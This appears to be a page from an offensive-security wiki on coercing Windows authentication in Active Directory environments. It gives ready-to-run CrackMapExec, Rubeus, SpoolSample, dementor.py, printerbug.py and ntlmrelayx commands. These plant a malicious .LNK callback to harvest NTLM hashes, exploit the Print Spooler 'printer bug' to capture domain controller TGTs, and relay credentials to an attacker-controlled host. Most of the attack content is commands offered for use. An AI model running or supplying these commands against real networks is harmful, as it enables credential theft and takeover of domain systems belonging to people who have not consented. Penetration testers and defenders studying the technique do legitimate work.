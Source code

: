 # Coercing Authentication

### Harvest NTLMv2/v1 Hashes with Write Access to Shares

The [following example](https://twitter.com/mpgn\_x64/status/1453018750253424643?ref\_src=twsrc%5Etfw%7Ctwcamp%5Etweetembed%7Ctwterm%5E1453018750253424643%7Ctwgr%5E0fe6e46bc61c94f27278793c3b0620a3c2ed5bd6%7Ctwcon%5Es1\_\&ref\_url=https%3A%2F%2Fcdn.iframe.ly%2Fo0HzCyi%3Fapp%3D1) demonstrates performing this attack with CrackMapExec, however, it can also be performed by crafting a custom `.LNK` file.

1\. Enumerate the hosts shares

```bash
crackmapexec smb $ip -u $username -p $password --shares
```

2\. Create a malicious .LNK file calling back to your Responder.py IP

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=[ResponderIP]
```

3\. After waiting and (hopefully) obtaining several NTLM hashes, cleanup the malicious file

```bash
crackmapexec smb $ip -u $username -p $password -M slinky -o NAME=$share SERVER=$responder_ip CLEANUP=True
```

### The Printer Bug&#x20;

If a machine that we have compromised is configured with [unconstrained delegation](../../../tactics/credential\_access/steal-or-forge-kerberos-tickets/delegation/unconstrained-delegation.md) we are able to capture any of the TGTs from machines/accounts that have authenticated to it. If we're able to obtain a TGT from a machine account, we can craft service tickets and obtain administrative access to it - this also works for domain controllers.&#x20;

It should be noted that in order to successfully exploit the printer bug, we must have already obtained a session as or valid domain user credentials.&#x20;

#### Enumerate Print Spooler Service

Enumerate Print Spooler service with ItWasAllADream:

```bash
# Enumerate Print Spooler with ItWasALlADream
docker run -it itwasalladream -u $username -p $password -d $domain $target -v

# Enumerate with CrackMapExec
crackmapexec smb $ip -u $username -p $password -M spooler

# Enumerate Print Spooler with Impacket
python rpcdump.py @$target | egrep 'MS-RPRN|MS-PAR'

# SpoolerScan.ps1
.\SpoolerScan.ps1
```

#### Exploiting the Printer Bug with [SpoolSample.exe](https://github.com/leechristensen/SpoolSample)

1\. We first need to monitor for any new TGTs on the system that has unconstrained delegation configured. Rubeus provides us with the handy functionality to accomplish this:

```bash
.\Rubeus.exe monitor /targetuser:$machineaccount /interval:5 /nowrap
```

2\. We can then execute `SpoolSample.exe` on the host to coerce authentication:

```bash
.\SpoolSample.exe $target $attacker
```

3\. After running `SpoolSample.exe` we should then aobserve a TGT on the attacker controlled system.

#### Remotely Exploiting the Printer Bug

* [Dementor.py](https://github.com/NotMedic/NetNTLMtoSilverTicket/blob/master/dementor.py)
* [Printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

Alternatively, we can accomplish this same exploitation path remotely using Impacket's ntlmrelayx to relay the credentials:

```bash
# Exploiting the Printerbug with Dementor.py
dementor.py -d $domain -u $username -p $password $attackerip $targetfqdn

# Exploiting the Printerbug with Printerbug.py
python printerbug.py $domain/$username:$password@$targetfqdn $attackerip

# Relay the authentication attempt to the target server
 ntlmrelayx.py -smb2support -t smb://$targetx
```

### Trigger NTLM Authentication over HTTP

```bash
## https://twitter.com/n00py1/status/1481385989025280000?s=20&t=rMzsQI6ENH2SYVVaTYTqAA
Invoke-WebRequest -UseDefaultCredentials
```

### References

{% embed url="https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack/" %}
